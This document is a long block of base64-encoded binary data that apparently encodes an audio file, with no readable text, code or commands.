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BAMCQgIogEOu3OahARM5MAHWjjtzepRpYGCsCQKHAILBxwOgBwcyQEUAmSHhw8zBgzxw6m425YGkjbCCEAyFLYvW9iARiDqEWs6S5BgChhkmBRAKFNOlTcS6amaC4OIOSChafBaRpi+GFyiM1KbLqdcOs7ZeyEvGwdKyHH/Zpdhv9U1N/7Dg6fJZtz4Hw4IBoXJEgVnrHIGf6bw3j//////////9m1j///8lTu//////////f////o+95//9uWYZwAAgCigAAQmRbYkDH7QtgxBAIQNWzBZjBiQQowYcU2MEgCQTAuwuIwgsD5MCMB7TA/wLQwVEAoMCdAMjAjwMAwFoDzMCrAyDAxQLowCUCxBQFEZpfhn/lmCwYYnCw0GQESzRBRM9HsxucBgPmDhqY0DpjIMA4RmAggABeYoEYMCJjY9iQUDhAXHMOAsKgkqhUqAACgUw0DDIY5MNhAFGUiFhCDAMHnQcBUyCMYBA8AELEizD4bCoBMTDkwWPwcSjDgeSplStpg4LvoDQFTtdTzYoGACDDB4HMBgsdAAFDgCBIYGq5a9lTpA0AUg4AQAAwUFA4Ds/SvQfkKa5gMFkoGTwC4CVOt5VZa7vN1WLO02Tgx6HspwvuLAdy2hK8aW0ZtUBiW89e5/f/VVgC6o5L8MP//rJptXp7n////w616dw///////61WyAAA+8iEGISQkwbR7RMZQGix6ARAw0P/74GSvgApHWNDWf4SA9uyp3c3oADW1gS9Z/gADrqrmqzmgAEMLDzCQRMIaNm3mgMcGKiZxa6DoIyVWMBLjKw0xcZBp03UtKACgAABEIAMpkRARA0bkfQANWBNQAaWQ4zCOTGHDFKgILWGmWDGYRHZABReIkxiAIACjIEWADQta0iFAJbpWIefF3TKgwhAleYEMvZ3IPbCSBkbX+VuQTJyrVQUiDjymUl1A4QHGWvKuTim/ZFqq/v/7mUv///z////9/////+//////4gkRDC2HMsb//+s7Sw0pluP/8vz/////62qb//////////+/97P/z7b//+/rKhXmgkZ3yGV7IjPbUAAADAgABARLcuwJNEKH4DKXCQox34U5MFABszThzHUwlEJQMcdAizBWAXAxW4GDMAMB4DDqAMUwXoE6MF6A+TANAMEwhAEJMEaBCDCAQCcwDID+MSbc10RDSiINRjs0K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